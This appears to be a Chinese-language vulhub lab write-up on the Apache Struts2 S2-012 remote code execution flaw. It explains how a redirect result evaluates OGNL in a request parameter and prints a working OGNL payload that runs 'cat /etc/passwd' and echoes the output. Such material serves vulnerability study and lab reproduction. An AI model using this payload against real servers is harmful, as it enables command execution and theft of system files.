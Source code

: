 # S2-012 远程代码执行漏洞

影响版本: 2.1.0 - 2.3.13

漏洞详情: <http://struts.apache.org/docs/s2-012.html>

## 原理

如果在配置 Action 中 Result 时使用了重定向类型，并且还使用 ${param_name} 作为重定向变量，例如：

```
<package name="S2-012" extends="struts-default">
    <action name="user" class="com.demo.action.UserAction">
        <result name="redirect" type="redirect">/index.jsp?name=${name}</result>
        <result name="input">/index.jsp</result>
        <result name="success">/index.jsp</result>
    </action>
</package>
```

这里 UserAction 中定义有一个 name 变量，当触发 redirect 类型返回时，Struts2 获取使用 ${name} 获取其值，在这个过程中会对 name 参数的值执行 OGNL 表达式解析，从而可以插入任意 OGNL 表达式导致命令执行。

## Exp

可以直接祭出s2-001中的回显POC，因为这里是没有沙盒，也没有限制任何特殊字符（为什么？）。

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat", "/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

发送请求，执行命令：

[![img](https://github.com/girlkb/vulhub/raw/master/struts2/s2-012/1.png)](https://github.com/girlkb/vulhub/blob/master/struts2/s2-012/1.png)